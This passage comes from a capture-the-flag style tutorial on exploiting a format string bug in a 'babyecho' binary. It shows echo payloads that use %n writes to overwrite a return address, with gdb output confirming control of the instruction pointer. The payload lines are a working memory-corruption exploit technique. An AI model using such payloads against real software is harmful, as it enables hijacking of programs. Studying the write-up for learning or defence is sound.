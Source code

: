 ```

$ <span class="in">echo -e '\x91\xc6\xff\xff%99x%7$n\n''AAAABBBBCCCCDDDD << %7$x * %8$x * %9$x * %10$x >>' | ./babyecho</span>
Reading 13 bytes
....                                                                                                  d
Reading 1023 bytes
AAAABBBBCCCCDDDD << 41414141 * 42424242 * 43434343 * 44444444 >>
```

As expected, the 7th, 8th, 9th, and 10th values on the stack were "AAAA", "BBBB", "CCCC", and "DDDD". If that doesn't make sense, go take a look at func\_a(), which was one of my first examples, and which put AAAA, BBBB, and CCCC onto the stack.

Now, since we can write to multiple addresses, instead of doing a single gigabyte of writing, we can do either two or four short writes. I'll do four, since that's more commonly seen. That means we're going to do something like this (once again, I'm adding quotes to make it clear what's happening, they'll disappear):

```

'\x4c\xc1\xff\xff''\x4d\xc1\xff\xff''\x4e\xc1\xff\xff''\x4f\xc1\xff\xff''%49x%7$n''%8$n''%9$n''%10$n'
```

Breaking it down:

- The first 16 bytes are the four addresses - 0xffffc14c, 0xffffc14d, 0xffffc14e, and 0xffffc14f. Something interesting to note is that 0xffffc150 - 0xffffc152 will also get overwritten, but we aren't going to worry about those
- "%49x" will output 49 bytes. This is simply to pad our string to a total of 65 - 0x41 - bytes (49 bytes here + 16 bytes worth of addresses)
- "%7$n" will write the value 0x41 - the number of bytes that have so far been printed - to the first of the four addresses, which is 0x41414141 ("AAAA")
- "%8$n" will write 0x41 - still the number of printed bytes so far - to the second address, 0x42424242
- "%9$n" and "%10$n" do exactly the same thing to 0x43434343 and 0x44444444

Let's give it a shot (I'm going to start redirecting to /dev/null, because we really don't need to see the crap being printed anymore):

```

$ <span class="in">echo -e '\x91\xc6\xff\xff%99x%7$n\n''\x4c\xc1\xff\xff''\x4d\xc1\xff\xff''\x4e\xc1\xff\xff''\x4f\xc1\xff\xff''%49x%7$n''%8$n''%9$n''%10$n' | ./babyecho > /dev/null</span>
Segmentation fault (core dumped)
$ <span class="in">gdb -q ./babyecho ./core</span>
Reading symbols from ./babyecho...(no debugging symbols found)...done.
[New LWP 2662]
Core was generated by `./babyecho'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x41414141 in ?? ()
```

Sweet! It worked!

